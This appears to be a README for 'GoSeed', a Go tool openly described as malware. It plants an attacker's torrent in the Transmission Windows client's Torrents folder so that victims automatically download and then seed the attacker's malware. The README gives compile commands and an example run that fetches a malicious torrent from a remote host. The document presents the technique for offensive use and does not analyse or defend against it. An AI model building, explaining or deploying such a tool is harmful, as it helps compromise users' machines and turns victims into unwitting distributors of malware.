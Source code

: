 # Readme

This isn't a "spreading" technique technically, it's more of a way to force a victim to seed our malicious torrent file. This targets Transmission's Windows client.

Transmission's client has a folder named Torrents which contains a list of currently downloading torrents. We can add our malicious torrent here and it will begin to auto download when the user opens up Transmission. Once the download is finished, then the victim will begin seeding our malware that is inside the torrent.

# Compiling

You need to install [grequests](https://github.com/levigross/grequests) in order to compile the code. This can be installed via:

* `go get -u github.com/levigross/grequests`

Then you compile via:

* `GOOS=windows GOARCH=386 go build seed.go`

# Usage

GoSeed is a command-line tool, you pass the URL to the malicious torrent file to the *-url* flag and the malware will:

1. Check to see if Transmission is installed
2. If installed, it will generate a random file name for the torrent
3. Download the torrent file to Transmission's Torrents/ folder


EX: 

* `seed.exe -url http://192.168.1.231:8000/malware.torrent`
